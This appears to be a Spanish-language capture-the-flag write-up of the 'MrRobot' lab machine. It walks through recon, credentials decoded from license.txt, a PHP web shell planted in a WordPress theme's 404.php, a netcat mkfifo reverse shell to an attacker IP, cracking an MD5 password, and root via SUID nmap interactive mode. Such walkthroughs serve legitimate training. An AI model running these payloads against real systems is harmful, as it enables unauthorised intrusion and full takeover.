




# Resolución maquina MrRobot

**Autor:** PepeMaquina  
**Fecha:** 14 de diciembre de 2025  
**Dificultad:** Medium.
**Sistema Operativo:** Linux 
**Tags:** Web, Wordpress, SUID.

---
## Imagen de la Máquina

*Imagen: MrRobot.JPG*
## Reconocimiento Inicial
### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 4000 -n -Pn 10.67.165.69 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p22,80,443 10.67.165.69 -oN targeted
~~~
### Enumeración de Servicios

~~~bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 78:f5:93:9b:26:ab:2a:cd:15:ac:08:7e:4f:2e:fc:5e (RSA)
|   256 78:5f:2a:8f:e6:c4:39:81:1b:f7:16:98:68:60:b0:93 (ECDSA)
|_  256 e2:24:81:69:a3:8d:39:fb:ac:70:d6:37:55:3e:8b:5f (ED25519)
80/tcp  open  http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
Se puede ver que existen puertos comunes como el ssh, http y https, pero estos no redirigen a ningún dominio predefinido.
### Enumeración de la página Web
Al inspeccionar la pagina web, se puede ver que esta inspirada en la serie "MrRobot", eso era obvio, pero la pagina como tal no presenta algo util como para poder explotar alguna funcionalidad.

Asi que lo primero que haria es intentar encontrar algun dominio por algun lado, pero esto no fue posible, asi que proceso a realizar una enumeración de subdirectorios, para ello primero intento realizar la enumeración con "Feroxbuster", pero si bien entrega información, esta entrega una gran cantidad de subdirectorios, pero en casos cuando veo mucha informacion, prefiero usar "dirsearch".
~~~bash
┌──(kali㉿kali)-[~/thm/mrRobot/nmap]
└─$ dirsearch -u http://10.67.165.69/      
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/thm/mrRobot/nmap/reports/http_10.67.165.69/__25-12-14_15-42-49.txt

Target: http://10.67.165.69/

[15:42:49] Starting: 
[15:42:52] 301 -  231B  - /js  ->  http://10.67.165.69/js/                  
[15:42:52] 301 -    0B  - /%2e%2e//google.com  ->  http://10.67.165.69/%2E%2E/google.com
[15:42:58] 403 -  220B  - /.ht_wsr.txt                                      
[15:42:58] 403 -  223B  - /.htaccess.bak1                                   
[15:42:58] 403 -  223B  - /.htaccess.orig                                   
[15:42:58] 403 -  225B  - /.htaccess.sample
[15:42:58] 403 -  223B  - /.htaccess.save
[15:42:58] 403 -  224B  - /.htaccess_extra                                  
[15:42:58] 403 -  221B  - /.htaccessBAK
[15:42:58] 403 -  221B  - /.htaccess_sc                                     
[15:42:58] 403 -  223B  - /.htaccess_orig
[15:42:58] 403 -  222B  - /.htaccessOLD2
[15:42:58] 403 -  221B  - /.htaccessOLD
[15:42:58] 403 -  214B  - /.html                                            
[15:42:58] 403 -  213B  - /.htm
[15:42:58] 403 -  223B  - /.htpasswd_test                                   
[15:42:58] 403 -  220B  - /.httr-oauth                                      
[15:42:58] 403 -  219B  - /.htpasswds
[15:43:05] 403 -  218B  - /.user.ini                                        
[15:43:06] 301 -    0B  - /0  ->  http://10.67.165.69/0/                    
[15:43:15] 301 -    0B  - /adm/index.php  ->  http://10.67.165.69/adm/      
[15:43:15] 301 -  234B  - /admin  ->  http://10.67.165.69/admin/            
[15:43:16] 200 -  677B  - /admin/                                           
[15:43:17] 200 -  677B  - /admin/index                                      
[15:43:17] 200 -  677B  - /admin/index.html                                 
[15:43:17] 301 -    0B  - /admin/index.php  ->  http://10.67.165.69/admin/  
[15:43:18] 301 -    0B  - /admin/mysql/index.php  ->  http://10.67.165.69/admin/mysql/
[15:43:18] 301 -    0B  - /admin/mysql2/index.php  ->  http://10.67.165.69/admin/mysql2/
[15:43:18] 301 -    0B  - /admin/phpmyadmin/index.php  ->  http://10.67.165.69/admin/phpmyadmin/
[15:43:18] 301 -    0B  - /admin/phpmyadmin2/index.php  ->  http://10.67.165.69/admin/phpmyadmin2/
[15:43:18] 301 -    0B  - /admin/phpMyAdmin/index.php  ->  http://10.67.165.69/admin/phpMyAdmin/
[15:43:18] 301 -    0B  - /admin/PMA/index.php  ->  http://10.67.165.69/admin/PMA/
[15:43:18] 301 -    0B  - /admin/pma/index.php  ->  http://10.67.165.69/admin/pma/
[15:43:18] 301 -    0B  - /admin2/index.php  ->  http://10.67.165.69/admin2/
[15:43:19] 301 -    0B  - /admin_area/index.php  ->  http://10.67.165.69/admin_area/
[15:43:26] 301 -    0B  - /adminarea/index.php  ->  http://10.67.165.69/adminarea/
[15:43:27] 301 -    0B  - /admincp/index.php  ->  http://10.67.165.69/admincp/
[15:43:28] 301 -    0B  - /adminer/index.php  ->  http://10.67.165.69/adminer/
[15:43:29] 301 -    0B  - /administrator/index.php  ->  http://10.67.165.69/administrator/
[15:43:33] 301 -    0B  - /apc/index.php  ->  http://10.67.165.69/apc/      
[15:43:38] 301 -    0B  - /atom  ->  http://10.67.165.69/feed/atom/         
[15:43:38] 301 -  234B  - /audio  ->  http://10.67.165.69/audio/            
[15:43:39] 301 -    0B  - /axis2-web//HappyAxis.jsp  ->  http://10.67.165.69/axis2-web/HappyAxis.jsp
[15:43:39] 301 -    0B  - /axis//happyaxis.jsp  ->  http://10.67.165.69/axis/happyaxis.jsp
[15:43:39] 301 -    0B  - /axis2//axis2-web/HappyAxis.jsp  ->  http://10.67.165.69/axis2/axis2-web/HappyAxis.jsp
[15:43:40] 301 -    0B  - /bb-admin/index.php  ->  http://10.67.165.69/bb-admin/
[15:43:41] 301 -    0B  - /bitrix/admin/index.php  ->  http://10.67.165.69/bitrix/admin/
[15:43:42] 301 -  233B  - /blog  ->  http://10.67.165.69/blog/              
[15:43:42] 403 -  214B  - /blog/
[15:43:44] 404 -  206B  - /cgi-bin/                                         
[15:43:44] 404 -  224B  - /cgi-bin/a1stats/a1disp.cgi
[15:43:44] 404 -  214B  - /cgi-bin/awstats/
[15:43:44] 404 -  216B  - /cgi-bin/awstats.pl
[15:43:44] 404 -  216B  - /cgi-bin/htmlscript                               
[15:43:44] 404 -  216B  - /cgi-bin/mt7/mt.cgi
[15:43:44] 404 -  216B  - /cgi-bin/index.html
[15:43:44] 404 -  215B  - /cgi-bin/mt/mt.cgi
[15:43:44] 404 -  212B  - /cgi-bin/mt.cgi
[15:43:44] 404 -  223B  - /cgi-bin/mt7/mt-xmlrpc.cgi
[15:43:44] 404 -  211B  - /cgi-bin/login
[15:43:44] 404 -  218B  - /cgi-bin/imagemap.exe?2,2
[15:43:44] 404 -   16B  - /cgi-bin/login.php                                
[15:43:44] 404 -  222B  - /cgi-bin/mt/mt-xmlrpc.cgi
[15:43:44] 404 -  214B  - /cgi-bin/test-cgi
[15:43:44] 404 -  219B  - /cgi-bin/mt-xmlrpc.cgi
[15:43:44] 404 -  217B  - /cgi-bin/htimage.exe?2,2                          
[15:43:44] 404 -  215B  - /cgi-bin/login.cgi
[15:43:44] 404 -  213B  - /cgi-bin/php.ini
[15:43:44] 404 -  214B  - /cgi-bin/printenv                                 
[15:43:44] 404 -  217B  - /cgi-bin/printenv.pl                              
[15:43:44] 404 -  214B  - /cgi-bin/test.cgi
[15:43:44] 404 -  217B  - /cgi-bin/ViewLog.asp                              
[15:43:45] 301 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js  ->  http://10.67.165.69/Citrix/AccessPlatform/auth/clientscripts/cookies.js
[15:43:46] 301 -    0B  - /claroline/phpMyAdmin/index.php  ->  http://10.67.165.69/claroline/phpMyAdmin/
[15:43:51] 301 -  232B  - /css  ->  http://10.67.165.69/css/                
[15:43:52] 302 -    0B  - /dashboard  ->  http://10.67.165.69/wp-admin/     
[15:43:52] 302 -    0B  - /dashboard/  ->  http://10.67.165.69/wp-admin/    
[15:43:53] 301 -    0B  - /db/index.php  ->  http://10.67.165.69/db/        
[15:43:53] 301 -    0B  - /dbadmin/index.php  ->  http://10.67.165.69/dbadmin/
[15:43:58] 301 -    0B  - /engine/classes/swfupload//swfupload.swf  ->  http://10.67.165.69/engine/classes/swfupload/swfupload.swf
[15:43:58] 301 -    0B  - /engine/classes/swfupload//swfupload_f9.swf  ->  http://10.67.165.69/engine/classes/swfupload/swfupload_f9.swf
[15:43:59] 301 -    0B  - /etc/lib/pChart2/examples/imageMap/index.php  ->  http://10.67.165.69/etc/lib/pChart2/examples/imageMap/
[15:44:00] 301 -    0B  - /extjs/resources//charts.swf  ->  http://10.67.165.69/extjs/resources/charts.swf
[15:44:00] 200 -    0B  - /favicon.ico                                      
[15:44:01] 301 -    0B  - /feed  ->  http://10.67.165.69/feed/              
[15:44:12] 301 -    0B  - /html/js/misc/swfupload//swfupload.swf  ->  http://10.67.165.69/html/js/misc/swfupload/swfupload.swf
[15:44:13] 301 -    0B  - /image  ->  http://10.67.165.69/image/            
[15:44:14] 301 -  235B  - /images  ->  http://10.67.165.69/images/          
[15:44:14] 403 -  216B  - /images/
[15:44:14] 200 -  614B  - /index.html                                       
[15:44:14] 301 -    0B  - /index.php  ->  http://10.67.165.69/              
[15:44:15] 301 -    0B  - /index.php/login/  ->  http://10.67.165.69/login/ 
[15:44:16] 301 -    0B  - /install/index.php?upgrade/  ->  http://10.67.165.69/install/?upgrade/
[15:44:17] 403 -  212B  - /js/                                              
[15:44:19] 200 -  504KB - /intro                                            
[15:44:19] 200 -  158B  - /license                                          
[15:44:19] 200 -  158B  - /license.txt
[15:44:21] 302 -    0B  - /login  ->  http://10.67.165.69/wp-login.php      
[15:44:21] 301 -    0B  - /login.wdm%20  ->  http://10.67.165.69/login.wdm  
[15:44:21] 302 -    0B  - /login/  ->  http://10.67.165.69/wp-login.php     
[15:44:26] 301 -    0B  - /modelsearch/index.php  ->  http://10.67.165.69/modelsearch/
[15:44:28] 301 -    0B  - /myadmin2/index.php  ->  http://10.67.165.69/myadmin2/
[15:44:28] 301 -    0B  - /myadmin/index.php  ->  http://10.67.165.69/myadmin/
[15:44:28] 301 -    0B  - /mysql-admin/index.php  ->  http://10.67.165.69/mysql-admin/
[15:44:28] 301 -    0B  - /mysql/index.php  ->  http://10.67.165.69/mysql/  
[15:44:28] 301 -    0B  - /mysqladmin/index.php  ->  http://10.67.165.69/mysqladmin/
[15:44:32] 301 -    0B  - /panel-administracion/index.php  ->  http://10.67.165.69/panel-administracion/
[15:44:34] 301 -    0B  - /phpadmin/index.php  ->  http://10.67.165.69/phpadmin/
[15:44:35] 301 -    0B  - /phpma/index.php  ->  http://10.67.165.69/phpma/  
[15:44:35] 403 -   94B  - /phpmyadmin                                       
[15:44:37] 301 -    0B  - /phpmyadmin-old/index.php  ->  http://10.67.165.69/phpmyadmin-old/
[15:44:37] 403 -   94B  - /phpmyadmin/                                      
[15:44:37] 403 -   94B  - /phpmyadmin/docs/html/index.html                  
[15:44:37] 403 -   94B  - /phpmyadmin/ChangeLog                             
[15:44:37] 403 -   94B  - /phpmyadmin/index.php
[15:44:37] 403 -   94B  - /phpmyadmin/doc/html/index.html
[15:44:37] 301 -    0B  - /phpMyAdmin.old/index.php  ->  http://10.67.165.69/phpMyAdmin.old/
[15:44:37] 301 -    0B  - /phpMyAdmin/phpMyAdmin/index.php  ->  http://10.67.165.69/phpMyAdmin/phpMyAdmin/
[15:44:37] 403 -   94B  - /phpmyadmin/phpmyadmin/index.php                  
[15:44:37] 301 -    0B  - /phpMyAdmin/index.php  ->  http://10.67.165.69/phpMyAdmin/
[15:44:37] 403 -   94B  - /phpmyadmin/README                                
[15:44:37] 403 -   94B  - /phpmyadmin/scripts/setup.php
[15:44:38] 301 -    0B  - /phpmyadmin0/index.php  ->  http://10.67.165.69/phpmyadmin0/
[15:44:38] 301 -    0B  - /phpmyadmin1/index.php  ->  http://10.67.165.69/phpmyadmin1/
[15:44:38] 301 -    0B  - /phpmyadmin2/index.php  ->  http://10.67.165.69/phpmyadmin2/
[15:44:38] 301 -    0B  - /phpMyAdminold/index.php  ->  http://10.67.165.69/phpMyAdminold/
[15:44:38] 301 -    0B  - /phpMyadmin_bak/index.php  ->  http://10.67.165.69/phpMyadmin_bak/
[15:44:40] 301 -    0B  - /pma-old/index.php  ->  http://10.67.165.69/pma-old/
[15:44:40] 301 -    0B  - /PMA/index.php  ->  http://10.67.165.69/PMA/      
[15:44:40] 301 -    0B  - /pma/index.php  ->  http://10.67.165.69/pma/      
[15:44:40] 301 -    0B  - /PMA2/index.php  ->  http://10.67.165.69/PMA2/
[15:44:41] 301 -    0B  - /pmamy/index.php  ->  http://10.67.165.69/pmamy/  
[15:44:41] 301 -    0B  - /pmamy2/index.php  ->  http://10.67.165.69/pmamy2/
[15:44:41] 301 -    0B  - /pmd/index.php  ->  http://10.67.165.69/pmd/      
[15:44:47] 200 -   64B  - /readme                                           
[15:44:47] 200 -   64B  - /readme.html                                      
[15:44:50] 200 -   41B  - /robots.txt                                       
[15:44:50] 301 -    0B  - /roundcube/index.php  ->  http://10.67.165.69/roundcube/
[15:44:50] 301 -    0B  - /rss  ->  http://10.67.165.69/feed/               
[15:44:57] 301 -    0B  - /siteadmin/index.php  ->  http://10.67.165.69/siteadmin/
[15:44:58] 200 -    0B  - /sitemap                                          
[15:44:58] 200 -    0B  - /sitemap.xml
[15:44:58] 200 -    0B  - /sitemap.xml.gz                                   
[15:45:00] 301 -    0B  - /sql/index.php  ->  http://10.67.165.69/sql/      
[15:45:03] 301 -    0B  - /sugarcrm/index.php?module=Accounts&action=ShowDuplicates  ->  http://10.67.165.69/sugarcrm/?module=Accounts&action=ShowDuplicates
[15:45:03] 301 -    0B  - /sugarcrm/index.php?module=Contacts&action=ShowDuplicates  ->  http://10.67.165.69/sugarcrm/?module=Contacts&action=ShowDuplicates
[15:45:06] 301 -    0B  - /templates/beez/index.php  ->  http://10.67.165.69/templates/beez/
[15:45:06] 301 -    0B  - /templates/rhuk_milkyway/index.php  ->  http://10.67.165.69/templates/rhuk_milkyway/
[15:45:06] 301 -    0B  - /templates/ja-helio-farsi/index.php  ->  http://10.67.165.69/templates/ja-helio-farsi/
[15:45:09] 301 -    0B  - /tmp/index.php  ->  http://10.67.165.69/tmp/      
[15:45:09] 301 -    0B  - /tools/phpMyAdmin/index.php  ->  http://10.67.165.69/tools/phpMyAdmin/
[15:45:10] 301 -    0B  - /typo3/phpmyadmin/index.php  ->  http://10.67.165.69/typo3/phpmyadmin/
[15:45:16] 301 -  234B  - /video  ->  http://10.67.165.69/video/            
[15:45:20] 301 -    0B  - /web/phpMyAdmin/index.php  ->  http://10.67.165.69/web/phpMyAdmin/
[15:45:20] 301 -    0B  - /webadmin/index.php  ->  http://10.67.165.69/webadmin/
[15:45:22] 301 -  237B  - /wp-admin  ->  http://10.67.165.69/wp-admin/      
[15:45:22] 200 -   21B  - /wp-admin/admin-ajax.php                          
[15:45:22] 302 -    0B  - /wp-admin/  ->  http://10.67.165.69/wp-login.php?redirect_to=http%3A%2F%2F10.67.165.69%2Fwp-admin%2F&reauth=1
[15:45:22] 500 -    3KB - /wp-admin/setup-config.php                        
[15:45:22] 200 -    0B  - /wp-config.php                                    
[15:45:22] 301 -  239B  - /wp-content  ->  http://10.67.165.69/wp-content/  
[15:45:23] 200 -    0B  - /wp-content/                                      
[15:45:23] 403 -  245B  - /wp-content/plugins/akismet/admin.php             
[15:45:23] 403 -  247B  - /wp-content/plugins/akismet/akismet.php           
[15:45:23] 200 -    0B  - /wp-content/plugins/google-sitemap-generator/sitemap-core.php
[15:45:23] 301 -    0B  - /wp-content/plugins/adminer/inc/editor/index.php  ->  http://10.67.165.69/wp-content/plugins/adminer/inc/editor/
[15:45:23] 500 -    0B  - /wp-content/plugins/hello.php                     
[15:45:23] 301 -  279B  - /wp-content/plugins/all-in-one-wp-migration/storage  ->  http://10.67.165.69/wp-content/plugins/all-in-one-wp-migration/storage/
[15:45:24] 403 -  228B  - /wp-content/upgrade/                              
[15:45:24] 403 -  228B  - /wp-content/uploads/
[15:45:24] 403 -  221B  - /wp-includes/                                     
[15:45:24] 200 -    0B  - /wp-cron.php
[15:45:24] 200 -    1KB - /wp-login
[15:45:24] 200 -    1KB - /wp-login.php
[15:45:24] 301 -  240B  - /wp-includes  ->  http://10.67.165.69/wp-includes/
[15:45:24] 500 -    0B  - /wp-includes/rss-functions.php
[15:45:24] 200 -    1KB - /wp-login/                                        
[15:45:24] 301 -    0B  - /wp-register.php  ->  http://10.67.165.69/wp-login.php?action=register
[15:45:24] 302 -    0B  - /wp-signup.php  ->  http://10.67.165.69/wp-login.php?action=register
[15:45:25] 301 -    0B  - /www/phpMyAdmin/index.php  ->  http://10.67.165.69/www/phpMyAdmin/
[15:45:26] 301 -    0B  - /xampp/phpmyadmin/index.php  ->  http://10.67.165.69/xampp/phpmyadmin/
[15:45:26] 405 -   42B  - /xmlrpc.php                                       
[15:45:26] 405 -   42B  - /xmlrpc
~~~
Con toda la información vista, lo primero que salta a mi vista es que existe un Wordpress corriendo en la pagina, esto tambien se puede ver al hacer un reconocimiento con wappalyzer.

Asi que mi sugerencia es dejar corriendo "wpscan" en segundo plano para que si no encontramos algo util, se pueda ver vulnerabilidades.

Pero antes de ello, yo noto varios subdirectorios que pueden ser importantes, entre ellos tengo.
- /admin
- Readme
- robots.txt
- license.txt
Al inspeccionarlo, en los dos primeros no se pudo encontrar algo importante (mas bien existia un mensaje referente a la serie).
Al revisar "robots.txt" se pudo encontrar dos direcciones, la primera es una con nombres random de "fsociety" y la segunda que me lleva a la primera key que pide el laboratorio.

Claramente no voy a mostrar la primera key.

Continuando, me puse a revisar el archivo "license.txt", al entrar en el pude ver un mensaje, pero estas estan en base 64, asi que decodificandolo se puede obtener credenciales.
~~~bash
┌──(kali㉿kali)-[~/thm/mrRobot]
└─$ echo 'ZWxsaW90OkVSMjgtMDY1Mgo='|base64 -d
elliot:ER28-0652
~~~
Con dichas credenciales primero intente acceder por ssh pero no tuve exito.

### Explotación WordPress
Luego intente loguearme por el login de wordpress a lo que si tuve exito.

Asi que con acceso a wordpress, se procede a hacer una reverseshell, esto modificando un archivo php colocando el tipico comando de:
~~~php
System($_GET[0]);
~~~
Lo mas recomendable es hacerlo en la pagina "404.php" ya que es una que ya existe.

Se la puede agregar en cualquier parte, luego con solo presionar "update file" los cambios se actualizan.
Ahora para interactuar con el comando, lo primero que hago es hacer un curl al template que se tiene.
~~~bash
┌──(kali㉿kali)-[~/thm/mrRobot]
└─$ curl http://10.67.165.69/wp-content/themes/twentyfifteen/404.php?0=id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
~~~
Se puede ver que el RCE funciona, asi que ahora procedo a realizar la reverse shell.
~~~bash
┌──(kali㉿kali)-[~/thm/mrRobot]
└─$ curl http://10.67.165.69/wp-content/themes/twentyfifteen/404.php?0=which+nc
/bin/nc
~~~
Asi que perfectamente existe "nc", sabiendo ello, lo primero que intente es realizar la reverse con busibox pero por alguna razon no funciono, asi que intente con mkfifo y esa si.
~~~bash
┌──(kali㉿kali)-[~/thm/mrRobot]
└─$ curl 'http://10.67.165.69/wp-content/themes/twentyfifteen/404.php?0=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20192.168.189.226%204444%20%3E%2Ftmp%2Ff'
~~~
Pero antes se debe de abrir un escucha en el puerto que definimos en la reverse.
~~~bash
┌──(kali㉿kali)-[~/thm/mrRobot/content]
└─$ sudo nc -nlvp 4444   
[sudo] password for kali: 
listening on [any] 4444 ...
connect to [192.168.189.226] from (UNKNOWN) [10.67.165.69] 48482
bash: cannot set terminal process group (2711): Inappropriate ioctl for device
bash: no job control in this shell
</wordpress/htdocs/wp-content/themes/twentyfifteen$
~~~
Como se puede apreciar, la reverse funciono correctamente, asi que ahora solo queda cosa de intentar buscar credenciales.

### Pivoting al usuario "Robot"
Tras una intensiva busqueda, descubri que el el directorio "/home" existe un directorio "robots" que tiene algo en md5.
~~~bash
daemon@ip-10-67-165-69:/opt$ cd /home/robot
daemon@ip-10-67-165-69:/home/robot$ ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 4 root  root  4096 Jun  2  2025 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
daemon@ip-10-67-165-69:/home/robot$ cat password.raw-md5 
robot:c3fcd3d76192e4007dfb496cca67e13b
~~~
Tal como indica el mensaje, seguramente la contraseña es un md5, asi que con la buena pagina "cackstation" veo que la contraseña es "abcdefghijklmnopqrstuvwxyz".
Ahora accediendo a "robot":
~~~bash
daemon@ip-10-67-165-69:/home/robot$ su robot
Password: 
$ id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
~~~
Claramente somos "robot" y ahora si se puede ver la segunda key.

---
## Escalada de Privilegios
### Enumeración de permisos
Lo primero que hago al tener acceso como "robot" es ver los permisos que tengo, tango permisos sudo como permisos SUID.
Al revisar permisos sudo no tuve respuesta alguna, pero al revisar lo SUID pude ver que tengo un binario vulnerable que es "nmap".
~~~bash
$ bash
robot@ip-10-67-165-69:/home$ find / -type f -perm -04000 -ls 2>/dev/null
     1157     40 -rwsr-xr-x   1 root     root        39144 Apr  9  2024 /bin/umount
     1130     56 -rwsr-xr-x   1 root     root        55528 Apr  9  2024 /bin/mount
     2587     68 -rwsr-xr-x   1 root     root        67816 Apr  9  2024 /bin/su
     9124     68 -rwsr-xr-x   1 root     root        68208 Feb  6  2024 /usr/bin/passwd
     8963     44 -rwsr-xr-x   1 root     root        44784 Feb  6  2024 /usr/bin/newgrp
     9117     52 -rwsr-xr-x   1 root     root        53040 Feb  6  2024 /usr/bin/chsh
     5092     84 -rwsr-xr-x   1 root     root        85064 Feb  6  2024 /usr/bin/chfn
     9123     88 -rwsr-xr-x   1 root     root        88464 Feb  6  2024 /usr/bin/gpasswd
     4484    164 -rwsr-xr-x   1 root     root       166056 Apr  4  2023 /usr/bin/sudo
      763     32 -rwsr-xr-x   1 root     root        31032 Feb 21  2022 /usr/bin/pkexec
     4430     20 -rwsr-xr-x   1 root     root        17272 Jun  2  2025 /usr/local/bin/nmap
    20504    468 -rwsr-xr-x   1 root     root       477672 Apr 11  2025 /usr/lib/openssh/ssh-keysign
     6761     16 -rwsr-xr-x   1 root     root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
   150122     24 -rwsr-xr-x   1 root     root        22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
   395259     12 -r-sr-xr-x   1 root     root         9532 Nov 13  2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
   395286     16 -r-sr-xr-x   1 root     root        14320 Nov 13  2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
   783960     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
~~~
Otra mas que vi es el famoso "pkexec" que sabemos puede ver vulnerable, pero como la maquina es antigua, posiblemente esta no sea el metodo correcto que se diseño a explotar.
Buscando en el confiable GTFBins, se puede ver que jugando con nmap se puede saltar a root.
~~~bash
robot@ip-10-67-165-69:/home$ /usr/local/bin/nmap -oG=$LFILE DATA
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
root@ip-10-67-165-69:/home#
~~~
Y listo, ahora con acceso a root se tiene acceso a todo el servidor sin restricciones.

